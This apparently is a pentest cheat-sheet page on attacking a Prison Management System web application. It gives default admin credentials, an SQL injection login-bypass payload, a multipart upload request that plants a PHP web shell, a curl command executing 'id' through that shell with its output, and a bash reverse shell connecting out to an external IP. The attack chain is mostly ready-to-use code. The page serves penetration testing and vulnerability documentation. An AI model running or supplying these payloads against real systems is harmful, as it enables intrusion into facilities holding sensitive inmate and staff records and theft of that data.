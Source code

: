 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Prison Management System

The Prison Management System (PMS) is a software platform designed to digitally handle administrative and operational tasks within a correctional facility. It typically includes modules for managing inmate records, sentence durations, parole eligibility, visitation schedules, and internal communications. The system often centralizes data for staff to monitor prisoner activities, manage cell allocations, and track behavioral reports or disciplinary actions. In many implementations, PMS also integrates with biometric systems, surveillance feeds, and external law enforcement databases to ensure identity verification and real-time data sharing.

From a red team or pentest perspective, a PMS is a critical infrastructure asset that may contain highly sensitive data such as personal details of inmates, confidential reports, staff information, or evidence logs. These systems are usually web-based or hosted within restricted networks, but misconfigurations—such as exposed admin panels, lack of access control, or unpatched CMS components—can offer significant attack surface.

## Default Credentials

```bash
admin:admin123
```

## SQLi Authentication Bypass

Default installations of PMS running under environments like XAMPP on Windows are vulnerable to an **authentication bypass via SQLi** on the login interface of the Admin Dashboard ([CVE-2024-33288](https://www.exploit-db.com/exploits/52017)). The root cause lies in the backend PHP code failing to properly sanitize user inputs before incorporating them into a SQL query. Specifically, the `username` parameter is directly concatenated into the SQL statement without using prepared statements or escaping, making it possible to inject arbitrary SQL logic.

An attacker can exploit this by submitting a specially crafted username such as `admin' or '1'='1` with any password. This input causes the backend SQL query to always evaluate as true, effectively bypassing authentication and granting administrative access to the system. Once authenticated, the attacker gains access to sensitive administrative functions, including inmate data, staff records, and operational logs.

```sql
# Payload
admin' or '1'='1
```

<figure><img src="../../.gitbook/assets/fast5_pms_sqli.png" alt="" width="563"><figcaption></figcaption></figure>

## File Upload to RCE

PMS version `1.0` is affected by a file upload vulnerability ([CVE-2024-48594](https://app.gitbook.com/o/asuXdppEfmgK9Dr478w0/s/mjLkek16kB60c2WFd5lf/)). This flaw allows a remote attacker to execute arbitrary code by uploading malicious files through the system’s file upload functionality. Due to insufficient validation and filtering of uploaded files, attackers can bypass restrictions and introduce executable payloads such as web shells.

```shell
# Request to POST /Admin/add-admin.php HTTP/1.1
------WebKitFormBoundaryyCVxsS8itKVeQYh3
Content-Disposition: form-data; name="txtusername"
​
test2
------WebKitFormBoundaryyCVxsS8itKVeQYh3
Content-Disposition: form-data; name="txtfullname"
​
test
------WebKitFormBoundaryyCVxsS8itKVeQYh3
Content-Disposition: form-data; name="txtpassword"
​
test
------WebKitFormBoundaryyCVxsS8itKVeQYh3
Content-Disposition: form-data; name="txtphone"
​
test
------WebKitFormBoundaryyCVxsS8itKVeQYh3
Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: image/png
​
<?php system($_GET['c']);?>
------WebKitFormBoundaryyCVxsS8itKVeQYh3
Content-Disposition: form-data; name="btncreate"
​
​
------WebKitFormBoundaryyCVxsS8itKVeQYh3--
```

System commands can then be executed and/or upgrade the webshell to a reverse shell:

{% code overflow="wrap" %}
```bash
$ curl --path-as-is -s -k -b 'PHPSESSID=cduqalcr0v5v9b8jh9fjkb0c32' 'https://pms-instance:9443/uploadImage/Profile/webshell.php?c=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
​
# Revshell payload (non URL-encoded)
?c=/usr/bin/bash -c 'bash -i >& /dev/tcp/192.168.45.170/80 0>&1' 
```
{% endcode %}
